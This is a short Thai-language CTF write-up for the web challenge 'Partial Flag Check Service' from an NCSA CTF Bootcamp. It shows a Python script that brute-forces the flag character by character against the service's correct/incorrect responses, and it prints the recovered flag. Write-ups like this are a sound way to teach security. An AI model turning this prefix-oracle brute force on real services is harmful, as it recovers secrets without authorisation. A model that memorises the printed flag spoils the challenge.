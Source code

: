 ```yaml
---
title: 'Partial Flag Check Service (NCSA CTF Bootcamp #2)'
published: 2024-09-19
description: 'เฉลยโจทย์หมวดหมู่ Web ข้อ Partial Flag Check Service'
image: 'cover.png'
tags: ['NCSA CTF Bootcamp', 'Web Security']
category: 'NCSA CTF Bootcamp'
draft: false 
language: 'th'
---
```


ก็ตามคำอธิบายโจทย์เลยครับข้อนี้ มันจะเช็คว่าข้อมูลที่เราส่งไปตรงกับส่วนเริ่มต้นของ FLAG มั้ย ถ้าตรง จะส่งมาว่า `Correct!` ถ้าไม่ตรง จะส่ง `Incorrect!` มา

ซึ่งมีถ้าทางเดียวที่จะ Solve โจทย์นี้ได้ก็คือ bruteforce ครับ

ก็จะเร็วหน่อยเพราะเรารู้ prefix ของ flag แล้ว และค่าใน flag ก็เป็น hex ซะด้วย ตัวอักษรที่เราจะหาก็จะมีแค่ `0123456789abcdef}` ครับ

ผมก็ได้เขียนเป็น Script นี้ขึ้นมาเพื่อ Solve โจทย์นี้ครับ

```python
import requests
flag = "FLAG{"
while True:
    for x in "0123456789abcdef}":
        print("trying:", flag + x)
        res = requests.post("https://websec.ctf.p7z.pw/", {
            "password": flag + x
        })
        if "Incorrect!" not in res.text:
            flag += x
            print(flag)
    if "}" in flag:
        break
```

รันไปสักแปป ก็จะได้ Flag มาครับบ

`FLAG{7efb1657bf58af3a61f86ac3b14949a8}`